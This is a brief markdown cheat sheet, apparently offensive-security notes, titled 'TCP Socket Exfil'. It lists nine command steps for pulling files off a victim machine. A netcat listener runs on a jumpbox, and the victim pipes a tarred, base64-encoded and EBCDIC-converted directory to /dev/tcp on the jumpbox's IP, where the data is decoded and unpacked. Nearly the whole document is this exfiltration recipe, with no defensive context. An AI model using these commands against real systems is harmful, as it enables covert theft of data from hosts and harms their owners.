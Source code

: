 # TCP Socket Exfil

## Example:

#### 1) Jumpbox: 

    nc -lvnp 8080 > /tmp/data

#### 2) Jumpbox 

    ssh USER@VICTIM_IP or DOMAIN

#### 3) Attacker: 

    ssh USER@VICTIM_IP -p 2022 (example)

#### 4) Victim1: 

    tar zcf - dir/ | base64 | dd conv=ebcdic > /dev/tcp/JUMPBOX_IP/8080

#### 5) Jumpbox: 

    ls -l /tmp/

#### 6) Jumpbox: 

    cd /tmp/

#### 7) Jumpbox: 

    dd conv=ascii if=data | base64 -d > data.tar

#### 8) Jumpbox: 

    tar xvf data.tar

#### 9) Jumpbox: 

    cat data.txt
